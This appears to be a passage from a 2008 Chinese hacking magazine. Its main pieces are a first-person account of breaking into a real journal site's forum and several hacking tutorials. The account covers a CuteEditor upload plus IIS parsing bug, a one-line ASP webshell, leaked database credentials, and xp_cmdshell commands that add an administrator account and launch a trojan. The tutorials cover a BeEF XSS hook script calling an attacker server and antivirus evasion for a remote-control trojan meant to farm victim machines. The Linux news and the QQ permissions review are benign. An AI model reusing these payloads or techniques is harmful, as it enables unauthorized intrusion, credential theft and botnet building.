alimama_bordercolor="E6E6E6";
alimama_linkcolor="008000";
alimama_bottomcolor="FFFFFF";
alimama_anglesize="0";
alimama_bgpic="0";
alimama_icon="0";
alimama_sizecode="22";
alimama_width=120;
alimama_height=240;
alimama_type=2;
</script>
<script src="http://a.alimama.cn/inf.js" type="text/javascript"></script>
<script src="http://www.54hssy.cn/beifen/alexa3.js" type="text/javascript"></script>
```

提交后提示成功，如图 4 所示，然后进入博客首页看看效果，如图 5 所示。


我用来测试的那个 JS 代码是自己网站显示 ALEXA 排名的，本文仅用于安全测试，希望官方能够修正这个 BUG。


> **编辑点评：**
> 一个小小的发现，危害却是大大地！调用也是包含的一种，合理应用的杀伤力还是很强的。

# CuteEditor 也曝洞

## 中国期刊网分站遭沦陷

■孤水绕城

## 本文讲解了 CuteEditor 漏洞的利用方法

俺是学计算机的，所以上机课自然是少不了，可是上机课上网有限制，只能访问本校的校内网，听课听烦了就研究研究校内网，看看学校主站有没有漏洞。不过，一直以来上机课没少上，但是学校主站还是没能拿下，为了这个还把俺最喜爱的 U 盘给弄丢了，郁闷了快一年……

## 一、CuteEditor 也爆洞

某日又到了上机课，听课听烦了又在校内网里闲转，忽然在主站的一个角落里看到了以前没有注意到的地方，如图 1 所示，其中有一项是“期刊检索”，这是什么东东？点开连接一看，原来是一个叫做“中国期刊网”的网站。问了下同学，原来是一个提供期刊服务的网站，据说里面的期刊是中国数量最丰富的。事后自己到网上搜了下，网站规模还不小，世界排名前 5000，呵呵，就这么一个大站怎么会没有洞呢！


随便看了下主站，是 .net 写的程序，自己只懂点 asp，对 asp.net 一窍不通。不过好歹看了这么多年的“黑手”，也开始学着高手们的手法，一通狂搞。但是身在学校机房，手头没有现成的工具，只能耐着性子测试链接，看看有没有注入的地方。


转悠了半天也没有什么收获，最后发现主站还有个论坛，如图 2 所示，不知道是什么版本的，也是 .net 程序写的。一直以来论坛的安全性大家都是有目共睹，那叫一个惨不忍睹啊！许多朋友通过论坛拿下来的网站是数不胜数，那就来看看中国期刊网的论坛安全性到底怎么样吧！


点开一看看，原来是一个文章评论的发帖界面（连登录都不需要），如图 4 所示。


怎么看着这么眼熟？有点像 ewebeditor 的风格。在插入图片的地方看了下，显示界面如图 5 所示，怎么和 fckeditor 的风格这么像啊（后来才知道，这是一个叫做 CuteEditor 的编辑器）？这下可有得搞了。


正好前几天就曾经用 fckeditor 拿下一个网站，这里就依样画葫芦吧。记得那时候用的是 Windows 2003 服务器解析漏洞拿下的，原理操作都很简单，就是在 Windows 2003 操作系统里新建个 *.asp（* 代表任意名称，但是不能有 /、\、*、? 等特殊字符）的文件夹，然后放在里面的非 asp 脚本的文件可以被浏览器当作 asp 程序正常解析。


好了，理论有了，就让我们实践下。找到有个“小剪子”图标的那一排工具栏，如图 6 所示，选择第一个类似文件夹的图标（新建目录），双击后就会弹出如图 7 的对话框，提示我们输入文件夹的名称。

这里我输入 gsrc.asp，看看字符“.”号有没有被过滤掉（以前就遇到过“.”被过滤成“_”的情况，那样漏洞就不存在了）。只要“.”并没有被过滤，下一步操作就完成了。

接下来上传图片小马的时候却出了问题！自己写了一个一句话后门，改成了 JPG 的后缀名，可是怎么传都传不上去，但正常的图片却能上传成功。离成功就一步之遥了，老天却和我开了这样大的一个玩笑。静下心来想了想，看来这套程序还不是太差，不只是检测后缀名，还对图片里的编码做了验证。不过可以试试往图片里插入一句话后门，进行欺骗上传。由于自己是在学校机房，想找个编辑图片的工具都没有，只能等下课了。

漫长的等待之后，下课连饭都没吃就直奔宿舍开电脑，那叫一个迅速啊，立即就进入了战斗状态。随便选个图片，用 C32Asm 的十六进制编辑功能往里面插入蓝屏大叔的一句话木马“<%execute request("gsrc")%>”，如图 8 所示。

满怀着激动上传图片，可是现实是残酷的，图片根本就没有传上去，gsrc.asp 文件夹里空空如也。蓝屏的一句话不行，那就换别的试试，用冰狐浪子的一句话木马“<SCRIPT RUNAT=SERVER LANGUAGE=javascript></SCRIPT>”，结果依然是不行。后来把一句话需要的特殊字符一个个写到图片里然后上传，分析之后发现，只要图片里有“%”、“<”这样的字符，程序就不让上传。到这里思路就断了，一句话后门缺了这些特殊字符也运行不了啊。

思考的同时我也没闲着，用 WSockExpert 抓下包，查看到网站返回给我们的第一条信息如下：

```text
HTTP/1.1 200 OK
Content-Length: 1826
Content-Type: image/gif
Last-Modified: Mon, 31 Jan 2005 06:47:52 GMT
Accept-Ranges: bytes
ETag: "0dcf9c8607c51:3ef"
Server: Microsoft-IIS/6.0
X-Powered-By: ASP.NET
Date: Mon, 04 Aug 2008 04:45:28 GMT
```

看到“Server: Microsoft-IIS/6.0”这句话没有？它告诉我们，网站是用“IIS/6.0”搭建的，根据经验分析，十有八九使用的是 Windows 2003 操作系统。这样，利用 Windows 2003 服务器解析漏洞的前提有了保证。可是经过前面的分析，我们的小马是不可能传上去了，那么怎样才能突破限制呢？

研究了半天还是没有成功，急得我在期刊网的论坛里乱转（呵呵，别学我啊），后来上传图片的时候，浏览器的一个链接引起了我的注意：

```text
CuteEditor/Dialogs/Gecko_InsertMedia.Aspx?settinghash=cda6bc0c6&{GetDNNArg}&MP=/Forums/Uploads/gsrc.asp&C_MP=/Forums/Uploads/gsrc.asp&Upload=True&UC=en-US&BG=%23fefefef&MaxMediaSize=100
```

大家看到 CuteEditor 的字样了没？难道这也是一个网站编辑器么？突然之间我就看到了转机，在网上转了转，还真有关于 CuteEditor 这个编辑器的信息，而且漏洞利用方法已经有前辈们公布了。我们的图片木马上传不了，但是可以通过该编辑器的添加 flash 功能，把我们的木马改成 swf 后缀再上传，这样就没有限制了。真是个好办法啊！马上把马儿的后缀名改成 .swf，成功上传，如图 9 所示，lanping.swf 就是我的一句话后门。在浏览器里访问下，结果如图 10 所示，完美地报错了，这下终于成功了。

高兴啊，“CuteEditor”+“Windows 2003 服务器解析漏洞”就这样完美结合并展现在了大家的面前。在 eWebEditor、FCKeditor 风波逐渐平息的今天，“CuteEditor”能否有所作为，那还要靠大家实战入侵去体会了。在这里感谢那些具有共享精神的前辈们，他们才是最可爱的人。

# 二、中国期刊网分站遭沦陷

CuteEditor 的漏洞利用过程我就分析完了，可是事情并没有完，因为本人水平太次，“鸡盟”里总是空着，一直想找几台配置好的肉鸡留着用，所以也想看看能不能拿下这台服务器的权限，一来可以丰富自己的入侵经验，二来也可以留着以后做跳板用。

因为这个服务器上的网站都是 .NET 的程序，大家都知道在默认情况下，.ASPX 是比 .ASP 的权限高的，所以直接上传个 ASPXspy1.0 大马（功能相当强大，最重要的是杀毒软件不杀），netstat -an、net user 这样的命令都能执行。添加用户试试：net user iis_helper 123456 /add，没有返回结果，用 net user 命令查看下也没有添加成功，呵呵，意料之中的事，权限不够。

在 webshell 里转转（.aspx 的马就是好使，几乎所有的目录都可以访问），发现了 pcAnywhere 的身影，想必大家对它都很熟悉了吧。马上把 CIF 配置文件下载回来，用 pcAnywhere 破解工具根本就破解不出来，换了几个工具也没有用，都是显示乱码。找到 pcAnywhere 的说明文档看了下版本，原来是 12.1 最新版本的，怪不得破不出来，看来用 pcAnywhere 提权是没有希望了。

那到底要怎么样才能提权呢？翻了下多年收藏的《黑客手册》杂志，知道了 .NET 程序一般都是使用 MSSQL 的数据库，而且 Web.config 这个文件里存放着数据库连接用户的名称和密码，类似于 ASP 的 conn.asp 文件功能。这就好了，用 webshell 的文件浏览功能很快在 D:/CNKILive V1.0/KBS/Forums/ 目录下找到了 Web.config 这个文件，并且找到了数据库连接的重要信息：

```text
<add key="SiteSqlServer" value="server=.;database=Forums;uid=DBMngr;pwd=Fi9pl6d4te!@#" />
<add key="SiteSqlServerOwner" value="dbo" />
```

其中的 Forums 是当前的数据库名称，DBMngr 是连接数据库的用户名，而 Fi9pl6d4te!@# 则是 DBMngr 这个用户所对应的密码。用 ASPXspy1.0 的数据库连接功能，把当前数据库名称（Forums）、数据库用户名（DBMngr）、数据库密码（Fi9pl6d4te!）全填好后进行连接，成功进入，如图 11 所示，而且还是 sa，看来人品不错。

那就加个用户看看，选择图 11 中间的那个“Sa_Exec”就可以执行 SQL 语句了。在文本框里输入“exec master..dbo.xp_cmdshell 'net user iis_helper 123456 /add'”，再点击旁边那个“Sa_Exec”，提示命令成功完成，如图 12 所示。

还好 xp_cmdshell 扩展存储没有被删除，省了不少事。继续提交“exec master.dbo.xp_cmdshell 'net localgroup administrators iis_helper /add'”，也成功了，一切都很顺利，那就先放个后门再说（目的就是为了养鸡嘛）。把自己免杀好了的小熊传到网站根目录上去，继续执行“exec master.dbo.xp_cmdshell 'D:/CNKILive V1.0/KBS/Forums/xiaoxing.exe'”，提示成功，在 webshell 里看了下，我的小熊也消失了，嘿嘿，就等我的小熊上线了。

可是左等右等没结果，右等也没上线，难道被杀了？不可能啊，俺的小熊可是杀软全过的啊！实在不行，又把鸽子传上去了，虽然能够运行，但是还是上不了线。后来实在没办法了，看看 3389 开了没有，远程登录下，刚才加的用户正好可以用上。

输入命令 netstat -an，没有发现 3389 端口的影子，难道没有开？也许端口被修改了。换用 webshell 的终端端口检测功能，确定 3389 终端开了，的确被改了端口，而且还给改成了 8000 端口，如图 13 所示，我说怎么小熊没上线呢，原来 8000 端口让终端给占用了。

接着用 Windows 自带的终端连接工具 mstsc 进行连接，成功登录，如图 14 所示，而且配置还相当的高，如图 15 所示。到这里，中国期刊网论坛分站就这样被俺一个菜鸟给拿下了，作为中国最大的期刊类网站，还是得把安全性提高下吧！

本来想继续渗透下去，无奈自己技术实在垃圾得不行，万一玩出点火来就不好收拾了。本文没什么技术含量，还是希望高手们能带带本小菜，不胜感激了。最后想说，希望“黑手”越办越好，中国的网络越来越安全。

> 注：本人只是友情检测，并没有恶意，如果有人照猫画虎对他人网站造成严重后果，本人概不负责！

[本文所涉及的相关程序 ASPXSpy1.0.7z 已收录在本期光盘]

# 编辑点评

本文就当作一个漏洞收集吧。另外我说一句，你的小熊不上线并不是端口被占用的关系，是肉鸡连你的 8000 端口，又不是你连肉鸡的 8000 端口。

# 高手专栏

LCX 高手专栏：

最近看收集的各个 blog 的 RSS，有一种很奇怪的感觉，大家的研究方向真的是越来越高深莫测了，让我有点追不上。像什么多字节编码漏洞影响跨站到各个 PHP 程序，什么 GIFAR 的跨域攻击等，有点让人看得一头雾水。不过其实我还有另外一种感受，就是你入侵网站能够成功的话，多数还是一些“寻常”知识的综合积累，并不是什么高深莫测的技术。因为寻常的知识才会普及面大，高尖的东西受众面自然要少些。不过也不能放弃掉，学习每一项有用的知识是提高自己水平必须的步骤。

跨站的专题就到这期了。从下期开始我定的题目是《我入侵中喜欢的小工具》。有些小工具很普通，但是运用得好的话，真能化腐朽为神奇！也许有的小工具可能是你收藏的独门秘籍，无论怎么样，还是写篇文章让大家看一下吧，介绍一下自己手里小工具的巧妙用法。

# lcx

- 从本文你可以学到：
  - BeEF 的简单操作

其实写这篇文章我有点心虚的感觉，因为我对这个工具也是有点摸不着头脑。也许很多小菜并不太知道这个工具，所以我介绍一下，给大家一个感性认识，剩下的就是自己摸索了。

# XSS 工具 BeEF 初探

BeEF 是 http://www.bindshell.net 开发的一个 XSS 工具，基于 PHP 的网络应用，它捕捉那些有 XSS 应用漏洞的用户浏览器请求。在你的机器上运行 BeEF，然后用它控制受 XSS 影响的用户，一旦受害者的浏览器请求 BeEF 资源，BeEF 将发出警告并允许你注入 JavaScript 代码，执行 JavaScript 端口扫描（例如受害浏览器将发起扫描：在受害浏览器可能访问的内网环境中进行的端口扫描就有可能被攻击者利用）等等。

# 一、怎样安装 BeEF

我是在本机架设了一个 PHP 环境的 WEB 服务器，用的是 APMXE5 控制器，一键安装式的。我本机的 IP 是 192.168.8.20，将 BeEF 放在 web 目录下执行 http://192.168.8.20/BeEF 即可了。BeEF 的环境要求是用 Firefox 控制才可以，所以我们用 Firefox 打开后看到的界面如图 1 所示。它的密码是在 pw.php 文件中，默认是 BeEFConfigPass，你可以改成你需要的。输入密码后进行登录，如图 2 所示，这就是一个控制界面了。

# 二、怎样发起攻击

BeEF 自带的一个示例页是 BeEF\hook\xss-example.htm，这个文件的内容是 `<script language='javascript' src='http://localhost/BeEF/hook/BeEFmagic.js.php'></script>`，就是调用了 BeEF magic.js.php 这个文件。我们把 localhost 改成我们 web 服务器的 IP，就可以把这个示例页发给别人，或在有 XSS 漏洞的地方插入此语句。

几个月前我在测试时发现很好用，但是今天写文章时我再测试，发现 IE7 打到一定补丁后会报错，不过勉强可以用。我在虚拟机 192.168.8.102 中打开了 xss-example.htm（我的虚拟机是 IE6.0 的环境），如图 3 所示。此时我本机的 BeEF 截图如图 4 所示，看到没有，我的虚拟机 192.168.8.102 已经上线了。

# 三、攻击示例

我们点击 192.168.8.102，并选择“Standard Modules”菜单下的“Alert”选项，如图 5 所示。我们点击 send 后，192.168.8.102 就会弹出 XSS 对话框了，如图 6 所示。

如果你嫌只弹对话框不过瘾的话，你再选择“Standard Modules”菜单下的“javascript command”选项，就可以执行 javascript 语句。

如图 7 所示，我写的是 `setTimeout('window.location = "http://www.sohu.com"',3000);`，这样的话 192.168.8.102 过 3 秒后它的 XSS 页就会转到 sohu 页面了。BeEF 不仅可以控制 IE，还可以扫描内网，我做的测试如图 8 所示。

至于剩下的选项我也没有测试成功，像开个 4444 端口等，我估计是有漏洞的机器才可以。在 http://www.bindshell.net/tools/BeEF 这里有它的动画和工具，大家可以自己去看一看。我想工具不是主要的，如何好好地应用，学会巧妙的合理搭配才能使自己有一个进步。

> 编辑点评：虽然工具不是万能的，但没有工具是万万不能的。而且合理使用工具来达到目的是高效率的表现，如何更快、更好、更轻松地拿下目标，这也是我们追求的效果。

> 栏首：完了……奥运完了，暑假也完了，但是奥运带给我的更高、更快、更强的激情，和暑假带给我的“休养生息”的生活还是很怀念的。这个夏天真的是太“热”了，就算是豪雨，甚至是冰雪也无法降低这种温度。看咱呀，你是不是离地球越来越近了啊？

# 黑客免杀班

# 简单免杀

钟光远

- 从本文你可以学到：
  - 简单快速地免杀“黑洞”

- 用到的工具：
  - 1、MaskPE
  - 2、PEditor
  - 3、木马免疫器
  - 4、KaOs undetecter

如今的鸽子似乎很被杀毒软件们看好，那么我们不换一个工具呢？我想“黑洞”大家都知道吧！一款不错的远程控制软件！好了，废话不多说，我们开始切入正题吧！

首先生成一个服务端，注意：千万不要选择加壳。接下来，我们先对服务端的信息进行替换，如图 1 所示，很简单，用其它的字母来代替这些字母就行了，比如用 system。注意：要保留它的扩展名。完成后点“开始替换”就行了。接下来打开 MaskPE，将服务端载入进去，如图 2 所示。

我们先对服务端的信息进行替换，如图 1 所示，很简单，用其它的字母来代替这些字母就行了，比如用 system。注意：要保留它的扩展名。完成后点“开始替换”就行了。接下来打开 MaskPE，将服务端载入进去，如图 2 所示。

息……”这里分别选择第一项、第二项、第四项和第五项，其它的不变，并分别进行保存。选择我们最后保存的这个服务端，将它放入 PEditor 中，并在“入口点”处加 1，然后点“应用修改”，这里很简单，我就不截图了。

打开“木马免疫器”，将客户端载入进去，然后点“免疫”就行了。成功后会在客户端的存放位置生成一个备份文件，不要管它，删了也可以，总之没用。

最后再打开 KaOs undetecter，将刚才的服务器端载入进去，点“保护”，会在服务端的存放地址又生成一个受保护的服务端，这个就不要删了！它就是我们最终要得到的免杀服务端！

我们来用瑞星查杀下，如图 3 所示，呵呵，顺利通过！如果还想进一步迷惑用户，可以将免杀了的服务端与正常软件绑定，这样，你的肉鸡就吃不完了！

好了，到此结束，有不懂的欢迎到黑手论坛联系我，论坛 ID：374058603。文章技术含量低，老鸟跳过，菜鸟必看！

> [文章中提到的工具光盘有提供]

编辑点评：真的又简单又快速，大家都应该像作者一样，不要老放鸽子，应该找些“冷马”来玩玩，让查杀软件晕乎一阵！

# 窗外

# Linews

Linux 社区最近可谓是热闹非凡，各种新闻层出不穷。从 LSB 4.0 的即将发布，到 Tux3 文件系统的开发，再到浏览器市场的风云变幻，以及开源界对苹果和微软态度的转变，都预示着 Linux 正在迎来一个新的发展阶段。

## 1、LSB4 年底正式推出，或将成为开源 Linux 标准？

并不是所有版本的开源 Linux 操作系统都是有着一样的系统组件，这显然给那些为多种不同的 Linux 系统开发应用软件的编程人员带来了极大的麻烦。正是因为这样，Linux 标准化基地（Linux Standards Base，以下简称 LSB）孕育而生。但是长期以来，LSB 并未充分发挥其潜力，随着 LSB 4.0 的发布，这一切都将被改变。

LSB 4.0 将会于今年年底正式推出，这或许会成为独立软件开发商（ISV）为任何一种兼容 LSB 的 Linux 系统开发应用软件的催化剂。如果被采用，LSB 或将带来面向多版本 Linux 系统的应用软件的开发浪潮。

Linux 基金会执行董事吉姆·齐默林（Jim Zemlin）向 InternetNews.com 透露表示，“之所以我不经常谈论有关 LSB 的话题，是因为我不希望看到其未能超过预期的表现。为软件开发者找出一条轻而易举开发应用的道路，对于 Linux 来说很是关键，我们不想让 Linux 重蹈 Unix 分裂破碎的覆辙。”

> 风飘点评：也许大家对 LSB 并不是很了解，要知道，LSB 对 Linux 是至关重要的，正是因为遵循了 LSB 标准，你可以在不同的发行版上使用同样的软件，而不用担心兼容性问题。不可否认，随着 LSB 的完善，以后在 Linux 下，无论是开发还是使用程序，都会变得简单。

# 2、Linux 新版文件系统 Tux3 正在开发中

Tux 是 Linux 的吉祥物——一只可爱企鹅的名字，而下一代的 Linux 文件格式也叫 Tux，被称作 Tux3。这一文件系统是和 ZFS 同等级的产物，ZFS 被广泛运用在 OpenSolaris 和一些 BSD 系统中，DragonFly BSD 则采用 Hammer。Tux3 由 Daniel Phillips 开发，之前他曾经公布了 ext2 的优化版 Tux2。目前 Tux3 仅仅在开发初期，而同步发展的 Btrfs 则将在下月发布第一个 Beta 版本。但也有传闻称 ZFS 将基于 GPL 发布，Hammer 也可能会被 Linux 利用。

> 风飘点评：Linux 支持的文件系统已经是百家争鸣的局面了，不同于其他的规范，支持的文件系统种类多，就意味着你有更多的选择。文件系统没有哪个是最好的，只有哪个是最合适的。

# 3、Firefox 市场份额超过 20%，IE 浏览器跌破 70%

据 NetApplications 数据显示，Firefox 浏览器的市场份额已经超过 20%，而 IE 浏览器却跌至 70% 以下。NetApplications 数据更多基于用户每日所使用的浏览器品牌，可能具有一定波动性，但整体趋势是明显的，IE 浏览器份额逐渐下滑，而 Firefox 则日益攀升。

整个 6 月，Firefox 平均市场份额为 19.27%，高于 5 月份的 18.41%；IE 的平均市场份额从 5 月份的 73.75% 降至 72.95%。而据 NetApplications 最新数据显示，Firefox 如今的市场份额已达到 20.68%（Firefox 2 为 13.75%，Firefox 3 为 6.92%），而 IE 则降至 69.88%。受 Firefox 3 新版浏览器的推动，分析师认为，Firefox 市场份额可长期维持在 20% 以上。

> 风飘点评：Firefox 2 是广告做得好，但用户体验还跟 IE 有得一拼。但 Firefox 3 可以说远远地把 IE 抛到了后面，连前 IE 的开发人员都说，Firefox 3 要比 IE 优秀，现在就看传说中的 IE8 了。IE 如果继续这样走下去，不用几年就会被 Firefox 所取代。

# 4、开源发展新命题：苹果是敌？微软是友？

在最近波特兰举行的世界开源大会（OSCON 2008）上，Ubuntu Linux 创始人 Mark Shuttleworth 发表了主题演讲，他认为，Linux 的真正对手不是微软，而是苹果！并大胆预测，在两年时间内，Linux 必能超越苹果。与 Linux 水火不相容的微软居然成了朋友？而一向与 Linux 井水不犯河水的苹果竟然成了假想敌？这是一个很大胆的命题，但在目前阶段，这样的观点是具有现实意义的。

“苹果是开源的敌人”，这是很多开源人士都认同的一种现实，如今终于被 Mark 说出来了。为什么说苹果是开源的敌人呢？仅仅是因为苹果的软件不开源吗？我看未必。如果仅仅是不开源，那微软和苹果都将是开源的敌人，而不会有敌友之分。其根本原因在于，苹果是开源的受益者，但并不是开源的贡献者。

苹果的软件有着很好的客户体验，这是不争的事实，也是很...

# 期盼千年的企鹅终于降临——Linux 初体验

图：风飘雨

从本文你可以简单了解一下 Linux QQ。

如果你是玩 Linux 的，却没听说过什么所谓的 QQ for Linux，那我只能说声抱歉，你不适合在中国的网络生存。最早从今年 4 月开始，“腾讯秘密研发 Linux QQ”的传闻就已经在网上沸沸扬扬地传开了，直到现在，在各大 Linux 网站，关注最多的也就是 Linux QQ 的消息。这很好理解，相信你也有过在 Linux 下无法使用 QQ 的痛苦，虽然有支持 QQ 协议的第三方程序，但毕竟不是正统啊，也不是那么好用。所以，全中国的 Linux 用户盼啊盼，终于在 7 月最后的日子里，迎来了 QQ for Linux。虽然说目前还只是个测试版本，功能等方面还“很有提高的余地”，但至少这已经表明了腾讯的态度，要改革开放了，好日子还会远吗？

# 一、安装配置

我们看看这款真正 Linux 下的 QQ 吧，你可以直接在腾讯官方网站 http://www.qq.com 下载 QQ for Linux（下载页面：http://im.qq.com/qq/linux/download.shtml），并提供了三种格式的下载文件，分别是 DEB 版本、RPM 版本、tar.gz 版本。（这三个版本已经收入本期光盘）

QQ for Linux 对系统的要求：

- Linux kernel：2.6 及更高
- GTK version：2.10 及更高

DEB 版本和 RPM 版本大家可以根据自己使用的系统来选择，最让我不解的是还有一个 tar.gz 版本？并且网站上宣称适合所有 Linux 系统，心中一喜，难道是代码包？QQ for Linux 不是闭源的吗？下载下来一看才明白，原来这里面放的也是编译好的二进制文件，是 QQ for Linux 的“绿色”版本，不需要安装就可以直接使用的，汗了一个。


我用的是 Ubuntu，所以下了个 DEB 版本的，直接双击用 “Package Installer” 打开，如图 1 所示。

看到了吗？再汗一个，怎么看都不像“官方”版本，很“简洁”啊。看看它的详细信息吧，我选了 rpm 包，直接在终端中输入“rpm -qpi linuxqq-1.0-Preview1.i386.rpm”，得到的信息如表 1。

之所以采用 rpm 查看信息，是因为有个传说，说这个版本中标注的授权类型为 GPL，这简直有点搞笑了。当初这个版本的打包时间是 7 月 31 日 04 点，而我们现在拿到的这个已经是 31 日 17 点打包的了，并且 License 已经不是 GPL，而终于改成 Commercial（商业）了。显然腾讯发现这个严重的“错误”并重新打包了，估计一开始打包的那仁兄被骂得很惨。


我们开始安装吧，直接点“Package Installer”中的那个“Install Package”，输入密码，软件就自动开始安装了，如图 2 所示。安装完成后，你就可以在菜单中找到可爱的 QQ 了，如图 3 所示。

这样 QQ 就安装好了，当然，你也可以通过终端安装，用命令“dpkg -i deb 包的名字”，卸载就用“dpkg -r linuxqq”。如果你要采用绿色版，只需要将它解压出来就可以直接用了，如果你要在终端下解压缩，可以用命令“tar xzvf tar.gz 包名字”。


# 二、试用手记

安装好了我们来试用一下吧。

### 表1

| 项目 | 内容 |
|---|---|
| Name | linuxqq |
| Relocations | (not relocatable) |
| Version | 1.0 |
| Vendor | (none) |
| Release | Preview1 |
| Build Date | 2008年07月31日 星期四 17时23分06秒 |
| Install Date | (not installed) |
| Build Host | tr.tencent |
| Group | Internet |
| Source RPM | linuxqq-1.0-Preview1.src.rpm |
| Size | 6235099 |
| License | Commercial |
| Signature | (none) |
| Packager | checkinstall-1.6.1 |
| Summary | QQ for Linux 1.0 Preview |
| Description | QQ for Linux 1.0 Preview |

打开程序，登录界面如图 4 所示，好熟悉啊，温暖的感觉。输入 QQ 号和密码就可以登录了，它的登录选项只有在线、隐身和离开。


登录后的软件界面如图 5 所示，和 Windows 下的很像，就是简洁得太多太多了，呵呵。不过登录之后你可以选择的状态就多了，如图 6 所示。

目前这个版本采用的是标签面板的形式，不过只有三个标签，分别是“好友”、“群”和“最近联系人”。

在“好友”标签里，就是你的好友分组了，分组方式是默认分组在最上面，自定义分组依次排在下面，并且目前你不能管理你的分组！（第一个版本还真不能要求太高啊，要不你会失望的）。而且这个面板好像还有 Bug，就是在空白处的鼠标点击会传给默认选中的选项，不知道是焦点处理不当还是故意这么设计的？


对于好友管理，你只能查看好友信息和删除好友，查看好友信息的界面如图 7 所示。


再看看查找好友吧，你可以按 QQ 号查找，也可以按条件查找，如图 8 所示。查找到的好友和添加好友的界面如图 9 所示，这个和 Windows 下的差不多。


点击上面的标签进入“群”界面，里面列出了你所有的群，可惜目前还不支持群管理，也就是说你只能群聊，不能添加群和删除群。关于最后的“最近联系人”也没什么“重点”需要说明的，就不说了。


再看看它的聊天窗口吧，如图 10 所示。聊天窗口采用了 Linux 下 IM 流行的标签页的形式，打开的所有聊天窗口（包括群聊）都在一个窗口中，左下角有个按钮可以将某个聊天窗口独立出来，脱离标签页。从图 10 中可以看到，聊天窗口只有一个默认表情按钮，还不支持自定义表情，旁边的就是历史聊天记录按钮。

最后看看总菜单，简单啊，有用的功能只有一个“设置”，就是修改你的个人资料。其中的“基本设置”里面可以设置“自动回复”和修改验证方式、发送消息的按键、显不显示 QQ 秀等，如图 11 所示。

知道吗？最郁闷的是我没找到在哪里修改我的密码。另外，你可以通过面板右上角的一个按钮来改变程序的颜色和底纹，更改后的确能好看一点。关于字体，程序使用的是跟你桌面环境配置相同的字体。这个版本的 QQ 是没有声音的哦，腾讯现在连群和分组的问题都没解决，你的要求就不要那么高了，程序总归能正常登录就算不错了。

还有许多小问题，搞笑的犹如谣传刚开始的时候，QQ 的“问题反馈”只支持 IE，你要提交 QQ for Linux 的问题必须换 Windows！不过我没法验证，只能说我现在验证的时候这个问题已经没有了。还有犹如腾讯网站上好大的字说支持 64 位系统，可在 64 位系统上运行时你只能用英文。后来有牛人解决了问题，但官方下载的 QQ 到现在还是老样子，看来意思是说：小样，叫你用 64 位系统，自己去找资料修改去吧。

# 三、关于安全

不管怎么说，目前这个版本显得“很不专业”，不管从开发上还是功能上。功能上不多说了，开发上来说，从打包就能看出来（Packager：checkinstall-1.6.1），个人觉得这不应该是腾讯这种大公司的作风。并且有资料显示，腾讯给出的最低系统配置是不准确的，程序需要更高的 GTK 版本（另一个最低系统配置是：要求 Linux 的内核在 2.6.8 或更高，GNU C Library 要求 2.4 或更高，GTK2+ 要求 2.12.x 或更高），不过对于这种说法我没有亲自验证。另外，这个版本好像在发送长消息时会自动把消息分段，不知为何？

说它“很不专业”是有原因的，跟一下它的文件 I/O，发现它的配置文件是放在“~/.Tencent/QQ”下，包括你的账号信息、聊天记录、图片、QQ 秀这些。由于这些是程序生成的，所以在你卸载 QQ 时不会被删除，在软件里也没有清理这些信息的选项。根据 QQ 在 Windows 下的作风，我估计如果你没及时手工清理的话，那这里的文件会越来越多，慢慢占据你的空间。

这还不算是最严重的！我进入“~/.Tencent/QQ”，不对头啊？这里怎么会有执行权限的文件？看过安装包，不包含这些文件的，并且从名字知道，这些都是配置文件，腾讯怎么给它们加上执行权限了？于是终端中列了一下，如图 12 所示，看完后汗当场就流下来了。

可以看到，它配置文件的权限为 777！进入以你 QQ 号命名的个人配置，里面的文件权限居然也是 777？！这个世界什么时候如此疯狂了？这可是随便一个 Linux 程序员都会注意的问题啊！


```bash
rain@rain-desktop:~$ cd .Tencent/
rain@rain-desktop:~/.Tencent$ ls -l
total 4
drwxrwxrwx 4 rain rain 4096 2008-08-06 16:38 35748821
rain@rain-desktop:~/.Tencent$ cd QQ
rain@rain-desktop:~/.Tencent/QQ$ ls -al
total 24
drwxrwxrwx 4 rain rain 4096 2008-08-06 16:38 .
drwxrwxrwx 3 rain rain 4096 2008-08-05 22:40 ..
drwxrwxrwx 2 rain rain 4096 2008-08-06 16:49 35748821
drwxrwxrwx 5 rain rain 4096 2008-08-05 22:40 common
-rwxrwxrwx 1 rain rain 3072 2008-08-06 16:38 mutex.db
-rwxrwxrwx 1 rain rain 4076 2008-08-06 16:41 login.db
rain@rain-desktop:~/.Tencent/QQ$ cd 35748821/
rain@rain-desktop:~/.Tencent/QQ/35748821$ ls -al
total 108
drwxrwxrwx 2 rain rain 4096 2008-08-06 16:49 .
drwxrwxrwx 4 rain rain 4096 2008-08-06 16:38 ..
-rwxrwxrwx 1 rain rain 220 2008-08-06 03:06 share.db
-rwxrwxrwx 1 rain rain 83968 2008-08-06 16:49 user.db
-rwxrwxrwx 1 rain rain 5336 2008-08-06 04:11 msg.db
rain@rain-desktop:~/.Tencent/QQ/35748821$
```

在 Linux 系统中，一般在“~”下的程序配置文件，权限通常都是“-rw-r--r--”，而涉及到个人信息的配置文件，权限都是标准的“-rw-------”。也就是说，除了你以外，别人是不能读的。可我们可爱的 QQ 不但可以让任何人读你的配置文件，还可以随便修改！也就是说任何人可以把你的聊天记录复制出来进行查看，或者可以拿到你的密码进行破解。

比如你选中保存密码（貌似只要你登录过就可以，不一定非要保存密码，不过那样要修改配置文件，我没验证），然后我随便换一个用户登录系统，复制你 QQ 文件夹下的文件到我自己的文件夹下，然后开 QQ，就可以直接成功登录你的 QQ 号。

如果你是在家里自己用，这不算什么大问题，但如果是在单位呢？如果你在服务器上安装了 QQ 呢？那样危害更大！在发现配置文件的问题之后，我就不得不关心一下 QQ 的其他文件了。列了一下它的程序目录，位置在“/usr/share/apps/Tencent/QQ”，它的程序本身（组群：root/root）的权限居然也是 777！

就这样，腾讯硬生生地把 Linux 降了一个安全级。还好腾讯心软，没有再设置个 SUID，要不就可以直接提权了，让这个以安全为傲的系统直接回到 DOS 的时代。

什么？你不知道有什么危害？我可以自己写个脚本，替换掉 QQ 的主程序，脚本在执行完我的代码后再自动加载正确的主程序，这样只要你使用过一次 QQ，我就可以以你的身份做任何事，但你没有一点察觉。比如我先自己开一个 777 的文件夹，在里面以你的身份创建一个有 SUID 的 shell 启动脚本，然后将我的文件夹去掉其他组的 X 权限，这样我随时都可以以你的身份登录系统了，并且你根本无法阻止我，改密码是无效的。

病毒之所以很难在 Linux 上生存，正是由于其严格的权限机制，即使一个用户出了问题，也不会影响到其他用户。但如果有程序像这个版本的 QQ 这样，那病毒就会很容易借助它生存和感染其他文件了。

